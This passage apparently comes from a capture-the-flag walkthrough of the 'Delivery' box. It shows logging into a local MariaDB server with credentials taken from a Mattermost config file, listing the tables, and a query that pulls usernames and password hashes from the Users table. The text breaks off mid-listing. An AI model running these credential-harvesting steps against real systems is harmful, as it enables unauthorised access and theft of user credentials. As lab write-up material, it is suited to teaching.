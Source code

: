```console
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           
udp6       0      0 :::52739                :::*                                
udp6       0      0 :::5353                 :::*                     
```

## and found mysql server is running on 127.0.0.1:3306 i try to login to mysql using found mysql username and password.
 
 ```console
maildeliverer@Delivery:/opt/mattermost/config$ mysql -h 127.0.0.1 -u 'mmuser' -p 
Enter password:  
Welcome to the MariaDB monitor.  Commands end with ; or \g. 
Your MariaDB connection id is 101 
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10 
 
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others. 
 
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
 
MariaDB [(none)]>
 ```
 
 ## let's show database and table using below command given below
 
 ```
show databases;
use mattermost;
show tables;
select Username, password from Users;
```

### Terminal Output given below

```console
MariaDB [(none)]> show databases; 
+--------------------+ 
| Database           | 
+--------------------+ 
| information_schema | 
| mattermost         | 
+--------------------+ 
2 rows in set (0.001 sec) 
 
MariaDB [(none)]> use mattermost; 
Reading table information for completion of table and column names 
You can turn off this feature to get a quicker startup with -A 
 
Database changed 
MariaDB [mattermost]> show tables; 
+------------------------+ 
| Tables_in_mattermost   | 
+------------------------+ 
| Audits                 | 
| Bots                   | 
| ChannelMemberHistory   | 
| ChannelMembers         | 
| Channels               | 
| ClusterDiscovery       | 
| CommandWebhooks        | 
| Commands               | 
| Compliances            | 
| Emoji                  | 
| FileInfo               | 
```